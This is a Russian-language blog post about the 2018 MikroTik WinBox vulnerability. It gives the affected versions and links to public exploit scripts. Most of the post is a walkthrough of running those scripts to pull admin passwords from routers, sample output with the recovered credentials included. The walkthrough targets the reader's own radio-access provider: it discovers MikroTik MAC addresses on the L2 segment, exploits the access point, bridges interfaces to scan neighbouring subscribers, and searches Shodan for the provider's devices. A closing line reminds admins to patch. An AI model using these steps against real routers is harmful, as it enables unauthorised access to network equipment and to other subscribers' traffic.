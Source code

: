```yaml
---
title: "Mikrotik WinBoxExploit изучаем оператора радио-доступа."
date: 2018-12-05 09:52:51 +0000
categories:
  - mikrotik
sidebar:
  - title: "Mikrotik WinBoxExploit"
    image: http://placehold.it/350x250
    image_alt: "image"
    text: "Some text here."
  - title: "Another Title"
    text: "More text here."
---
```

 
Первая новость о взломе на сайте Mikrotik  появилась 25 марта 2018 г. 
https://blog.mikrotik.com/security/winbox-vulnerability.html (update 9th Oct, 2018 New Exploit )

В ней говорится что уязвимость  обнаружена в версиях:

*Affected all bugfix releases from 6.30.1 to 6.40.7, fixed in 6.40.8 on 2018-Apr-23
*Affected all current releases from 6.29 to 6.42, fixed in 6.42.1 on 2018-Apr-23
*Affected all RC releases from 6.29rc1 to 6.43rc3, fixed in 6.43rc4 on on 2018-Apr-23

На странице [https://github.com/BigNerd95/WinboxExploit](https://github.com/BigNerd95/WinboxExploit), выложен python скрипт взлома пароля к роутерам mikrotik.

Более подробно о методике выявления уязвимости рассказано на странице [https://n0p.me/winbox-bug-dissection/](https://n0p.me/winbox-bug-dissection/), ссылка есть на github у того же [BigNerd95](https://github.com/BigNerd95/WinboxExploit).

  Вероятно, можно построить свою ботнет сеть, с помощью  такой уязвимости и уже кто-то это сделал:  
  * На взломанных роутерах появились надписи HACKED FTP server, HACKED-ROUTER-HELP-SOS-WAS-MFWORM-INFECTED или HACKED-ROUTER-HELP-SOS-HAD-DEFAULT-PASSWORD ([см более подробно на сайте хакер](https://xakep.ru/2018/03/29/hajime-hunts-mikrotik/)).
  * Также есть герой с [https://habr.com/users/LMonoceros/](https://habr.com/users/LMonoceros/ )  который написал скрипт , который заблокировал эту уязвимость     и оставил доступ только из локальной сети [Для чего хакерам Микротик и как я спрятал 100 тыс. RouterOS от ботнета](https://habr.com/post/424433/) 

Для того что бы применить скрипт, нет ничего сложного: 
```bash
# python WinboxExploit.py  _ip_address_
```
результатом будет: 
{% highlight python %}
5.14.128.18
User: root
Pass:
User: admin
Pass:
User: admin
Pass: ddsER
User: create
Pass: WBCWGwewe
{% endhighlight %}

### Немножко усложним задачу:
-<s>Взломаем</s> Изучим оператора, который предоставляет вам радиодоступ, когда мы не знаем _IP address_ оборудования или если он не настроен . У нас есть только прямое подключение к клиентскому оборудованию, которое по радио подлючено к точке доступа оператора.

![]({{ site.baseurl }}/uploads/800-IMG_20160430_143159.jpg "пример подключения")

Данный exploit позволяет просканировать L2 сегмент сети и обнаружить mac адреса Mikrotik.
```bash
$ python MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)
    aa:bb:cc:dd:ee:ff 
    aa:bb:cc:dd:ee:aa
```
После чего запускаем уже следующий скрипт.
```bash
$ python MACServerExploit.py aa:bb:cc:dd:ee:ff
User: admin
Pass: Th3P4ssWord
```

Дальше можно применить свои знания и умения по подключению через winbox, ssh,  telnet, к оборудониваю и узнать ssid security. Что даст нам вожможность заменить оконечное оборудование самостоятельно, к примеру при покупке более мощной абонентской точкой доступа.

Если оператор  не позаботился о безопасности, и не запретил _forwarding_ между абонентскими точками доступа, можно настроить bridge между ether1 и wlan1 и просканировать по mac адресам соседей/сектора.  
```bash
/interface bridge
add name=bridge1
/interface bridge port
add bridge=bridge1 interface=ether1
add bridge=bridge1 interface=wlan1
```
### Усложним задачу еще немножко:

Используя сервис [https://bgp.he.net](https://bgp.he.net), узнаем свой ip_address и prefixv4 своего оператора, проверим его на сервисе [https://shodan.io](https://shodan.io).
Введя  в строке поиска (_доступно после регистрации_)
```bash
mikrotik net:"5.140.28.0/19"
```
и получим:
![]({{ site.baseurl }}/uploads/shodan.png "результаты поиска")



### Sysadmin не забывай обновлять routeros , настривать правила доступа к оборудованию.

